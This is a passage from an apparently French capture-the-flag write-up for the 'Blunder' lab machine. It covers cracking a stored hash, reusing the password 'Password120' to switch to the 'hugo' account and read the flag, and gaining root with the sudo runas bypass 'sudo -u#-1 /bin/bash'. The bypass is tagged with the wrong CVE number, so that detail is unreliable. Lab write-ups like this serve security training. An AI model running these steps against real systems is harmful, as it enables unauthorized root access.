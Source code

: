 ```
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""}
}
```

Le hash est-il connu de crackstation.net ? Oui !

![image-20200605133203267](/assets/img/image-20200605133203267.png)

Le mot de passe aurait-il été réutilisé pour le compte unix ? C'est le cas !

```
$ su - hugo
su - hugo
Password: Password120

hugo@blunder:~$ cat user.txt
cat user.txt
fbbd480ffe63207917bf7f19b9dcf347
```

A quelles commandes avons-nous accès avec sudo ?

```
hugo@blunder:~$ sudo -l
sudo -l
Password: Password120

Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
```

Si on google ceci `(ALL, !root) /bin/bash`, on découvre des explications sur une vulnérabilité sudo (CVE-2019-18634) https://www.exploit-db.com/exploits/47502. Il s'agit de contourner les restriction du fichier sudoers.

Vulnérabilité jusqu'à la version 1.8.27 et nous sommes en 1.8.25p1.

![image-20200605141506589](/assets/img/image-20200605141506589.png)

Le contournement de la restriction du fichier sudoers :

```
hugo@blunder:~$ sudo -u#-1 /bin/bash
sudo -u#-1 /bin/bash
root@blunder:/home/hugo# whoami
whoami
root
root@blunder:/home/hugo# id
id
uid=0(root) gid=1001(hugo) groups=1001(hugo)
root@blunder:/home/hugo# 
```
